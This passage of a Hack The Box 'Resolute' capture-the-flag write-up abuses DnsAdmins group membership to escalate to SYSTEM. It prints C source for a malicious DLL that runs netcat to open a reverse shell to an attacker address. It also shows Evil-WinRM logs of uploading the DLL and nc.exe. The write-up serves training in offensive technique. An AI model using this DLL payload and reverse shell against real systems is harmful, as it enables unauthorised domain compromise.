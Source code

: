 ![](/assets/images/htb-writeup-resolute/bloodhound.png)

As I suspected, user `ryan` is a member of two additional groups: `Remote Management Users` and `DnsAdmin`. I remember reading about a potential privilege escalation vector for users with `DnsAdmin` group access.

Spotless has a great [blog post](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) that covers this priv esc. In a nutshell, we can ask the machine to load an arbitrary DLL file when the service starts so that gives us RCE as SYSTEM. Because we're in the `DnsAdmins` group, we can re-configure the service and we have the required privileges to restart it.

Here's a quick DLL file that just calls netcat to get a reverse shell.

```c
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.51 5555");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

After compiling this, I upload both the DLL and netcat to the machine.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> upload /root/htb/resolute/nc.exe
Info: Uploading /root/htb/resolute/nc.exe to C:\windows\system32\spool\drivers\color\nc.exe

Data: 53248 bytes of 53248 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> upload /root/htb/resolute/pwn.dll
Info: Uploading /root/htb/resolute/pwn.dll to C:\windows\system32\spool\drivers\color\pwn.dll

Data: 305604 bytes of 305604 bytes copied

Info: Upload successful!
```
